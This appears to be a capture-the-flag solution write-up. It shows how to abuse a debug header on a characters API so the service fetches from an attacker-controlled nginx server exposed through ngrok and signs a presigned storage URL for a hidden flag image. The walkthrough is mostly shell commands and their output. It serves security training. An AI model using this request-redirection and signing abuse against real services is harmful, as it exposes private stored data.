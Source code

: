 # Solution

## View the swagger docs

View the swagger docs and find the characters endpoint, and hopefully the commented
out X-Debug header too.

## Hit the characters endpoint

Observe the behavior. It returns both "photo" _and_ "photoURL". Remember the X-Debug
parameter. Play around for a bit and start passing values for that. Notice it's trying
to make a request to whatever you pass:

```bash
➜  ~ curl localhost:8081/characters -H "X-Debug: asdf"                 
unable to make get characters request to service "asdf": Get asdf/characters: unsupported protocol scheme ""
```

## Spin up a server

Spin up an nginx server with just one suspect entry. Expose it to the internet

```bash
mkdir static
curl -Ss localhost:8081/characters | jq "[.[0]]" -M > static/characters
docker run -p 8089:80 -v "$(pwd)/static:/usr/share/nginx/html:ro" --name nginx-solution -d nginx
ngrok http 8089
```

## Point the server at your server

```bash
➜  ~ curl localhost:8081/characters -H "X-Debug: http://f6963781.ngrok.io"
[{"firstName":"Kate","lastName":"Libby","aliases":["Acid Burn"],"photo":"hackers/photos/42842/74b7f996-8b1c-4f16-ab35-4b5e99225347.jpg","photoUrl":"http://localhost:9000/suspects/hackers/photos/42842/74b7f996-8b1c-4f16-ab35-4b5e99225347.jpg?X-Amz-Algorithm=AWS4-HMAC-SHA256\u0026X-Amz-Credential=IL0B9GDKIR7XCKYZWNS6%2F20191010%2Fus-east-1%2Fs3%2Faws4_request\u0026X-Amz-Date=20191010T050215Z\u0026X-Amz-Expires=300\u0026X-Amz-SignedHeaders=host\u0026X-Amz-Signature=3d4ae23ee907eac787d37e88c1a051e516159e69956bf4b93e3513e705e095a2"}]
```

Notice that it seems to be using whatever you return in "photo" and signing and setting
photoUrl.

## Think about what you can get it to sign

Play around for a bit. Eventually, get back to looking at the OpenAPI spec and notice
the example value for photo: "20897.jpg". Try returning that. Alternatively, you can return an empty photo, and look at the contents of the entire bucket.

```bash
curl -Ss localhost:8081/characters | jq '[.[0] | .photo = "20897.jpg"]' > static/characters
docker kill nginx-solution && docker rm nginx-solution
docker run -p 8089:80 -v "$(pwd)/static:/usr/share/nginx/html:ro" --name nginx-solution -d nginx
ngrok http 8089
```

## Get it to sign the flag

```bash
curl localhost:8081/characters -H "X-Debug: http://afc70734.ngrok.io"
```

The flag is returned in an image!